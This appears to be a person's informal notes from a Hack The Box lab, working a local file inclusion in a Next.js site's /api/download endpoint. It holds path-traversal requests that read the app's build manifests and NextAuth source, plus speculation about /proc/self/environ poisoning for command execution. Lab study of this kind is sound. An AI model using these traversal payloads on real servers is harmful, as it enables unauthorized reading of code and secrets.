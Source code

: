 


# more info

GET /api/download?example=../../../../../app/.next/server/pages-manifest.json HT



{
  "/_app": "pages/_app.js",
  "/_error": "pages/_error.js",
  "/api/auth/[...nextauth]": "pages/api/auth/[...nextauth].js",
  "/api/download": "pages/api/download.js",
  "/docs/[section]": "pages/docs/[section].html",
  "/docs/components/layout": "pages/docs/components/layout.html",
  "/docs/components/sidebar": "pages/docs/components/sidebar.html",
  "/docs/content/examples": "pages/docs/content/examples.html",
  "/docs/content/getting-started": "pages/docs/content/getting-started.html",
  "/docs": "pages/docs.html",
  "/": "pages/index.html",
  "/signin": "pages/signin.html",
  "/_document": "pages/_document.js",
  "/404": "pages/404.html"
}




*more info*

../../../../../app/.next/routes-manifest.json



*this is the path that I have LFI*
http://previous.htb/api/download?example=hello-world.ts




LFI is running as nextjs user I need to get the nodejs user


if I could read NextAuth.js maybe that would help

Welcome to Alpine Linux 3.21
Kernel \r on an \m (\l)



*this doesnt appear to be vuln to RFI*



is poisoning the environment the way to go??? with /proc/self/environ?cmd=whoami?

at least with the user agent this did not work





*this is the path holly fucking shit this was a fkn trip*
GET /api/download?example=../../../../../../../../../app/.next/server/pages/api/auth/[...nextauth].js
